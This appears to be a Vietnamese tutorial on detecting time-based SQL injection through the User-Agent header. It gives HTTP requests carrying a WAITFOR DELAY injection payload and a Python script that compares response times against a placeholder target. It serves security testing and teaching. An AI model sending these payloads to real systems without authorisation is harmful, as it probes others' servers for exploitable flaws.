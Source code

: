 ### **Các bước thực hiện**

#### **1. Gửi yêu cầu thử nghiệm**
- Dùng công cụ như **Burp Suite**, **Postman**, hoặc một script Python để gửi yêu cầu HTTP.

**Yêu cầu với payload:**
```http
GET / HTTP/1.1
Host: targetwebsite.com
User-Agent: ';WAITFOR DELAY '0:0:10'--
```

**Yêu cầu không có payload:**
```http
GET / HTTP/1.1
Host: targetwebsite.com
User-Agent: NormalUserAgent
```

#### **2. Đánh giá kết quả**
- Nếu thời gian phản hồi yêu cầu có payload kéo dài thêm 10 giây, thì máy chủ dễ bị lỗ hổng Time-based SQL Injection.

---

### **Ví dụ kiểm tra với Python**

#### **Script kiểm tra**
```python
import requests
import time

# URL của mục tiêu
url = "http://targetwebsite.com"

# Payload kiểm tra lỗ hổng
headers_with_payload = {
    "User-Agent": "';WAITFOR DELAY '0:0:10'--"
}

headers_without_payload = {
    "User-Agent": "NormalUserAgent"
}

# Gửi yêu cầu với payload
start_time = time.time()
response = requests.get(url, headers=headers_with_payload)
time_with_payload = time.time() - start_time

# Gửi yêu cầu không có payload
start_time = time.time()
response = requests.get(url, headers=headers_without_payload)
time_without_payload = time.time() - start_time

# So sánh thời gian phản hồi
print(f"Thời gian với payload: {time_with_payload} giây")
print(f"Thời gian không payload: {time_without_payload} giây")

if time_with_payload - time_without_payload >= 10:
    print("Lỗ hổng Time-based SQL Injection đã được xác định!")
else:
    print("Không phát hiện lỗ hổng Time-based SQL Injection.")
```

---